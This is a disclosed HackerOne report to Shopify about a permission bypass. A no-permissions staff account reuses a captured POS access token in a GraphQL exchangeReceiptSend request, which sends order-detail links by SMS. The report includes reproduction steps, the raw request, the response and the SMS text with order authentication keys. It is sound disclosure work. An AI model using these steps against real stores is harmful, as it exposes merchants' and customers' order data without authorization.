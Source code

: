 # STAFF "No-Permissions" on the Store can retrieve the details Order via exchangeReceiptSend

## Report Details
- **Report ID**: 917875
- **URL**: https://hackerone.com/reports/917875
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-07T11:12:56.446Z
- **Disclosed**: 2020-08-24T16:41:33.753Z

## Reporter
- **Username**: langduvnsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
I discovered a bug in an android mobile app that allowed STAFF No Permissions using Receipt Send to Mobile of any Order information in the Store.

#Steps to reproduce:
**1)** STAFF account is created and assigned "No Permissions" on a Shop by Owner/Admin
**2)** STAFF then login to shop. Notice that STAFF is not having any access to menus.
**3)** Log in to Shopify POS on Android. Access will not allow the application, but it will call /admin/api/unstable/shop.json before logging out. Now there will be an **X-Shopify-Access-Token** parameter. I use Telerik Fiddler to capture packets on the Shopify POS App.
**4)** Now STAFF triggers the below GraphQL request via a burp proxy.
```
POST https://langduvnsec.myshopify.com/admin/api/unversioned/graphql HTTP/1.1
X-Shopify-Access-Token: xxxxxxxxxxxxxxxxxxxxxxxx
user-agent: Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-G955N Build/NRD90M.G955NKSU1AQDC) Shopify POS 3.50.0/22606
Accept: application/json
Content-Type: application/json; charset=utf-8
Content-Length: 456
Host: langduvnsec.myshopify.com
Connection: Keep-Alive
Accept-Encoding: gzip

{ "query": "fragment ExchangeErrorFragment on ExchangeError { __typename code field message } mutation ExchangeReceiptSend($exchangeId: ID!, $input: ExchangeReceiptSendRecipientInput!) { __typename exchangeReceiptSend(exchangeId: $exchangeId, recipient: $input) { __typename exchange { __typename id } userErrors { __typename ... ExchangeErrorFragment } } }", "variables": {"exchangeId":"gid://shopify/Exchange/605028374","input":{"phone":"+84332947000"}}}
```
**5)** Replace your Exchange_ID and Phone number to get the details order access link. Please use your country's Phone Area Code to receive messages.
#Response: ███████
```
{
  "data": {
    "__typename": "Mutation",
    "exchangeReceiptSend": {
      "__typename": "ExchangeReceiptSendPayload",
      "exchange": {
        "__typename": "Exchange",
        "id": "gid://shopify/Exchange/605028374"
      },
      "userErrors": []
    }
  },
  "extensions": {
    "cost": {
      "requestedQueryCost": 10,
      "actualQueryCost": 10,
      "throttleStatus": {
        "maximumAvailable": 300000.0,
        "currentlyAvailable": 299990,
        "restoreRate": 15000.0
      }
    }
  }
}
```
#SMS Response: ████ and ██████████
```
pVCSdKiitos, ett teit vaihdoit ostoksen kaupasta langduvnsec!  Alkuperinen tilaus:  langduvnsec.myshopify.com/26192052246/orders/8356d9c67229a59ae4634b94d514d548/authenticate?key=bbf35fac2c88bc3bd6b53cc14e2110f3 Uusi tilaus:  langduvnsec.myshopify.com/26192052246/orders/02418bf7e3604d4c5a09aba909193dc8/authenticate?key=38a448bc14b62c4cff031eb97e6ac186asfo
```

## Impact

STAFF "No-Permissions" on the Store can retrieve the details Order via exchangeReceiptSend

## Attachments
No attachments

